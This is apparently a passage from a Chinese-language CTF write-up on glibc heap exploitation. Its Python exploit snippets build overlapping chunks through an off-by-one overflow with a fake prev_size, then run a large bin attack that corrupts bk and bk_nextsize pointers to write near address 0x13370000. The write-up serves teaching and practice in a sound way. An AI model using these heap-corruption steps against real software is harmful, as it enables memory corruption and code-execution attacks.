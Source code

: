 首先创造出overlap chunk。

```python
alloc(0x18)     #0
alloc(0x508)    #1
alloc(0x18)     #2
update(1, 'h'*0x4f0 + p64(0x500))   #set fake prev_size

free(1)
update(0, 'h'*(0x18-12))    #off-by-one
alloc(0x18)     #1
alloc(0x4d8)    #7
free(1)
free(2)         #backward consolidate
alloc(0x38)     #1
alloc(0x4e8)    #2
```

这样`chunk1`和`chunk7`，`chunk2`重叠，只要计算距离，`chunk1`可以修改`chunk7`的堆头，`chunk7`可以修改`chunk2`的堆头。

同样的在制作一个overlap chunk

```python
alloc(0x18)     #3
alloc(0x508)    #4
alloc(0x18)     #5
update(4, 'h'*0x4f0 + p64(0x500))   #set fake prev_size
alloc(0x18)     #6

free(4)
update(3, 'h'*(0x18-12))    #off-by-one
alloc(0x18)     #4
alloc(0x4d8)    #8
free(4)
free(5)         #backward consolidate

alloc(0x48)     #4
```

这样`chunk4`和`chunk8`重叠，`chunk4`可以修改`chunk8`的堆头。

然后就是利用unsorted bin中的chunk插入到large bin写数据，绕过对unsortbin中chunk的size大小的检查。

```python
free(2)
alloc(0x4e8)    #2
free(2)

storage = 0x13370000 + 0x800
fake_chunk = storage - 0x20

p1 = p64(0)*2 + p64(0) + p64(0x4f1) #size
p1 += p64(0) + p64(fake_chunk)      #bk
update(7, p1)

p2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
p2 += p64(0) + p64(fake_chunk+8)    #bk, for creating the "bk" of the faked chunk to avoid crashing when unlinking from unsorted bin
p2 += p64(0) + p64(fake_chunk-0x18-5)   #bk_nextsize, for creating the "size" of the faked chunk, using misalignment tricks
update(8, p2)
```
